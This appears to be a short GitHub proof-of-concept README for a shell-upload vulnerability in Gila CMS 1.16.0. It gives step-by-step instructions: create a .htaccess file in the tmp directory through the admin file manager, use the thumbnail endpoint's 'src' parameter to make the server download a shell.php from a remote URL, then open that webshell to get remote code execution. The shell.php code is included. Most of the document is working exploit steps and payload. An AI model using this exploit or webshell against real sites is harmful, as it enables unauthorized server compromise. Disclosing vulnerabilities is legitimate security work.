 # Gila-CMS-1.16.0-shell-upload

Author: jkana
----
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![title](Images/1.jpg)

3.Click **+File** and create **.htaccess**:

![title](Images/2.jpg)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![title](Images/3.jpg)

6.Access to webshell and got RCE!

![title](Images/4.jpg)

----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```